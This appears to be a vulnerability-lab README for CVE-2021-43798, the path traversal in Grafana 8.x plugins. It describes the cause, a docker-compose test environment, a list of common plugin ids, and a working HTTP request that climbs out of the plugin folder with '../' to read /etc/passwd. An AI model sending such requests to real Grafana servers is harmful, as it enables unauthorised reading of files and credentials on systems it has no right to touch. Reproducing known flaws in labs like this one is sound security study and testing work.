 # Grafana 8.x Plugin Module File Path Traversal (CVE-2021-43798)

[中文版本（Chinese Version）](README.zh-cn.md)

Grafana is a multi-platform open source analytics and interactive visualization web application.

In December 2021, a Twitter user disclosed a 0day vulnerability, that unauthenticated attackers could use this vulnerability to step up web path and download arbitrary files through a craft url of Grafana 8.x.

References:

- https://grafana.com/blog/2021/12/07/grafana-8.3.1-8.2.7-8.1.8-and-8.0.7-released-with-high-severity-security-fix/
- https://twitter.com/hacker_/status/1467880514489044993
- https://nosec.org/home/detail/4914.html
- https://mp.weixin.qq.com/s/dqJ3F_fStlj78S0qhQ3Ggw

## Vulnerable environment

Execute following command to start a Grafana server 8.2.6:

```
docker-compose up -d
```

After the server start, you can browse the login page at `http://your-ip:3000`, no credential for this vulnerability.

## Exploit

The vulnerability is caused by plugin module, which is able to serve the static file inside the plugin folder. But for lock of check, attacker can use `../` to step up from the plugin folder to parent foler and download arbitrary files.

To exploit the vulnerabilty, you should know a valid plugin id, such as `alertlist`, here are some of common plugin ids:

```
alertlist
cloudwatch
dashlist
elasticsearch
graph
graphite
heatmap
influxdb
mysql
opentsdb
pluginlist
postgres
prometheus
stackdriver
table
text
```

Send following request to retrieve the `/etc/passwd` (you can replace the `alertlist` with any valid plugin id):

```
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 192.168.1.112:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close


```

![](1.png)
